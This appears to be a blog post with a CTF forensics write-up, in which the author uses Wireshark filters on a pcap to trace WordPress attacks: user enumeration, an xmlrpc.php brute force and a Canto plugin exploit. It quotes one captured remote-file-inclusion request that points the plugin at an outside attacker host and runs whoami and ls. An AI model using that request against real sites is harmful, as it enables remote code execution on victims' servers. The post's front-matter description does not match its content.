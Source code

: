 ```yaml
---
layout: post
author: kranthikvrm
title: CTF Writeup - 0xL4ugh CTF 2024
description: In this blog post, I am sharing my experiences from my first year at RGUKT Nuzvid, where I experienced new faces, challenges, and exciting opportunities on my journey towards becoming an engineer.
date: 2024-02-13 07:43:00 +0800
categories: [CTF Writeups]
tags: [CTF, CTF Writeups]
img_path: /images/0xL4ughCTF
image:
  path: 0xL_logo.png
pin: true
---
```


Hello buddy, I am Kranthi Kumar, a cybersecurity enthusiast. Recently I participated in the 0xL4ugh CTF, so I am writing how I solved these challenges:

## Challenge 1: WordPress - 1 [Easy]
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need your help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker?

Q2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)
```
<b>My approach:</b>

They gave us a wordpress.pcap file, so I started my analysis using Wireshark.

First things first, I filtered out `http.request traffic` to get a lead. I observed that the IP `192.168.204.132` tried accessing `/wordpress/robots.txt` and `/wordpress/xmlrpc.php`, and `GET /wordpress/wp-content/uploads/` paths. It is very clear that this is the attacker's IP.
![IP addresses found](1.png)

So, Q1 victim IP: 192.168.204.128  and attacker IP: 192.168.204.132

Following the HTTP stream gave us the server and php version information.

![server version found](2.png)

So the flag is `0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}`


## Challenge 2: WordPress - 2 [Medium]
```

Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. Separate them with a colon. Sort them alphabetically.

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

<b>My approach:</b>

As we already know the attacker IP, I filtered the traffic with the "POST" method as it is used to log in and the source IP as the attacker IP.

`ip.src == 192.168.204.132 && http.request.method == POST`

I found three login attempts and also the three usernames and passwords.
![login attempts](22.1.png)
![login attempts](22.2.png)
![login attempts](22.3.png)

So it's `a1l4m:demomorgan:not7amoksha` in alphabetical order.

Moving forward to Q2, to find out the brute force attack, I filtered traffic so that all HTTP traffic from and to `192.168.204.132` will be visible.

`((ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)) && http`

![brute force attempts](3.png)

I found 5 POST requests to the `/wordpress/xmlrpc.php` path. Following the HTTP stream revealed that the attacker tried the "wp.getUsersBlogs" command with two parameters to extract users.
![brute force attempts -1](3.1.png)

So for sure, the second parameter is the password that the attacker used. I saw too many failed attempts. I tried to filter only the successful attempts using

`(ip.dst == 192.168.204.132) && !(xml.cdata == "403") && (_ws.col.protocol == "HTTP/XML")`

The above filter or query, (ip.dst == 192.168.204.132): This part filters packets where the destination IP address is 192.168.204.132 and !(xml.cdata == "403") this part selects packets where the XML data field (xml.cdata) is not equal to "403". So, it excludes packets containing XML data equal to "403" and (_ws.col.protocol == "HTTP/XML"), this part filters packets where the protocol in the Wireshark column is "HTTP/XML".

I analyzed all the filtered packets, and the packet 147357 response says that the login successful. I found it by following the HTTP stream.
![brute force attempts -2](3.2.png)

So the username:password is `demomorgan:demomorgan`

And I know that the brute forced web page is `xmlrpc.php`
![brute force attempts -3](3.3.png)
With the all the information, I got the final flag, it is `0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

## Challenge 3: WordPress - 3 [Hard]
```
Q1. Mention the names of the tools that the attacker used in the attack. (in alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format: 0xL4ugh{A1_A2_A3}

Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}

```

<b>My approach:</b>

To solve Q1, I have to find the tools that the attacker used for the attack. Most of the times, checking the user-agent will give us this data. So let's check the HTTP traffic again.

With `(ip.src == 192.168.204.132) && http.request` filter

![user agent checking](4.1.png)

User-Agent: `WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)`

Attacker tried SQL Injection attack using sqlmap. 
User-Agent: `sqlmap/1.7.12#stable (https://sqlmap.org)`
![user agent checking](4.png)
Sorting them in alphabetical order: `sqlmap_WPScan`

Moving forward to Q2, I have to find the vulnerable plugin that the attacker exploited.

so I used this filter `http contains "plugins"` and found the below leads.

![vulnerable plugin](4.2.png)

URL: `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami` and `cmd=ls`

I found that a plugin named "Canto" along with a command `whoami` and `ls` at the end of the URL. So this is the vulnerable plugin.

With the information in hand, I can say the answer for Q2 is `172.26.211.155_canto`.

Moving to Q3, and after some analysis, nothing was there related to plugin version and CVE. So I did a Google search, and the first hit shows that Canto 3.0.4 is vulnerable to CVE-2023-3452.
![vulnerable plugin details](4.3.png)
With the information gathered, the answer to Q3 is `3.0.4_CVE-2023-3452`. So the final flag is `0xL4ugh{SQLMap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`. 

Thank you for reading buddy ❤️
